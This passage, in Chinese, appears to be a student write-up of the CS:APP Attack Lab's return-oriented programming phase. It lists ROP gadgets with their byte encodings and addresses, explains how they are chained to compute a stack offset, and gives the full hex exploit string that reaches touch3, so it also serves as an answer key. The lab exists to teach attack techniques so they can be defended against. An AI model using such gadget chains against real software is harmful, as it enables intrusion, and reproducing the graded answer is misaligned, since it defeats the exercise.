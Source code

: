```
|  4   |    int, float     |
|  8   | long,double,char* |

##### 正确答案

==构造一个偏移量    8的倍数==

```
mov %rsp,%rax   #gadget1   48 89 e0 c3          #farm中地址 0x401a06 401aad （多个
ret
mov %rax,%rdi       #gadget2  48 89 c7 90 c3            #0x4019c5 0x4019a2 不唯一
ret 

/* -------------------构造偏移量 放入rsi中-------------------- */
popq %rax             # gadget3  58 90 c3  #只查到了pop rax 且不唯一  #0x4019ab 0x4019cc        (1)
ret
movl  %eax,%edx           #没有48 89 cx movq %rax,%xxx(非rdi)  考虑movl %eax,%xxx(非edi)  89 cx   有一个89 c2 90 c3 #在0x4019dd  (2)
ret
mov %edx,%ecx          #89 d1  08 db c3    在#0x401a69   其中08 db不改变寄存器   或者0x401a70 401a34  (4)
ret
movl %ecx,%esi       #89 c6/ce-f6/fe  有一个89 ce 90 90 c3  在0x401a13    (3)
ret 
/* -----------------------构造完毕------------------------------- */
lea    (%rdi,%rsi,1),%rax   #gadget7        #0x4019d6
ret
mov %rax,%rdi     #gadget8                 #0x4019c5
ret 
```

该问题解决时 先查找（1），即符合条件的pop，

然后查找（2），看rax能赋给何处，

然后查找（4），看谁可以赋给rsi，

然后查找（3），找到衔接 

![image-20240511132105962](./image_attack_lab(target)/image-20240511132105962.png)

答案为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00        /* gadget1地址 多个 */
c5 19 40 00 00 00 00 00        /* gadget2地址 多个 */
ab 19 40 00 00 00 00 00      /* gadget3地址 */
48 00 00 00 00 00 00 00      /* gadget3要 pop的偏移量 */
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00      /* 5 */
13 1a 40 00 00 00 00 00     
d6 19 40 00 00 00 00 00        /* gadget7 */
a2 19 40 00 00 00 00 00        /* gadget8 */
fa 18 40 00 00 00 00 00        /* touch3 */
35 39 62 39 39 37 66 61        /*   偏移0x48=72 cookie */
```

==注意 答案格式中 /* comment */必须之间有俩空格隔开==

## 总结
```